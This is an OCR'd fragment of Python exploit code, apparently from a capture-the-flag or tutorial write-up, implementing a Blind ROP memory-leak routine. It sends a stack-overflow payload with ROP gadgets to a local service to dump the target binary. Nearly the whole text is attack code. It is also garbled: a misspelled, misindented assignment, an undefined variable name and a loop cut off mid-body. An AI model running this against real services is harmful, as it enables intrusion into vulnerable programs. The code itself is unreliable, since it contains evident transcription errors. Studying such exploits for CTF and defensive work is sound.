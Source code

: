 
```python

def leak(length, rdi_ret, puts_plt, leak_addr, stop_gadget):

    sh = remote('127.0.0.1', 9999)

    payload = 'a' * length + p64(rdi_ret) + p64(leak_addr) + p64(

        puts_plt) + p64(stop_gadget)

    sh.recvuntil('password?\n')

    sh.sendline(payload)

    try:

        data = sh.recv()

        sh.close()

        try:

            data = data[:data.index("\nWelCome")]

        except Exception:

date = data
        if data == "":

            data = '\x00'

        return data

    except Exception:

        sh.close()

        return None





##length = getbufferflow_length()

length = 72

##stop_gadget = get_stop_addr(length)

stop_gadget = 0x4006b6

## brop_gadget = find_brop_gadget (length, stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = bridge_gadget + 9
##puts_plt = get_puts_plt(length, rdi_ret, stop_gadget)

puts_plt = 0x400560
addr = 0x400000

result = ""

while addr < 0x401000:

```